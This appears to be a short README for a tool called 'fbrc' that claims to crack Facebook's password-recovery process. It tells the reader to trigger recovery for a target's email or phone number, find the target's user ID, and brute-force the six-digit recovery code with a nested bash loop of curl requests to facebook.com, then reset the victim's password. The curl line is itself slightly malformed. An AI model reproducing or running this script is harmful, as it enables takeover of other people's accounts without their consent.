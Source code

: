 # fbrc
fbrc - FaceBook Recovery Cracker

Prerequisites:

- access to facebook
- target email or phone number

Facebook recovery suffers from a security flaw, that is when user asks for a recovery code, it isn't required to enter this code in the formular for the new password's page to be created.
Thus it's possible to trigger the recovery process and then bruteforce the recovery url.

You can do this with any software or a simple program that will generate a million code (6 digits) and try a GET request like this:

`for i in {0..9}; do for j in {0..9}; do for k in {0..9}; do for l in {0..9}; do for m in {0..9}; do for n in {0..9}; do curl 'https://www.facebook.com/recover/password/?u=&n=$i$j$k$l$m$n |grep password_new; done; done; done; done; done; done`

You must pass the user_id to the `u`parameter, you will find this id in the souce code of the page on the wall of the user, just search for USER_ID.

This curl script is the simplest and will output something only when the code is found, you'll find the code somewhere in the console, just go to the recovery link we just bruteforced using the ID and code in a browser.
